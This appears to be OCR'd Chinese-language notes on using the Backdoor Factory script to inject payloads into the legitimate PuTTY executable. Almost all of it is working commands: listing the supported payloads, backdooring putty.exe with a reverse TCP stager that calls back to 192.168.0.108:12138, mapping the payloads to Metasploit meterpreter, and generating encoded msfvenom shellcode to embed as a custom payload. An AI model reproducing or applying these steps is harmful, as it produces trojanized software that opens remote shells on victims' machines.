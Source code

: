 	查看是否支持捆绑
	>python backdoor.py -f /root/Desktop/putty.exe -S
	查看此文件支持哪些payload
	>python backdoor.py -f /root/Desktop/putty.exe -s show
	reverse_shell_tcp_inline对应msf
	set payload windows/meterpreter/reverse_tcp
	meterpreter_reverse_https_threaded应msf
	set payload windows/meterpreter/reverse_https
	iat_reverse_tcp_stager_threaded修复IAT
	user_supplied_shellcode_threaded自定义payload
	参数
	-s 指定payload
	-H 回连地址
	-P 回连端口
	-J 多代码裂缝注入
	>python backdoor.py -f ~/putty.exe -s iat_reverse_tcp_stager_threaded -H 192.168.0.108 -P 12138 -J -o payload.exe
	后门生成在backdoored目录
	或
	生成payload
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -e x86/shikata_ga_nai -i 5 -f raw -o shellcode.c
	自定义
	>python backdoor.py -f /root/putty.exe -s user_supplied_shellcode_threaded -U /root/shellcode.c  -o payload2.exe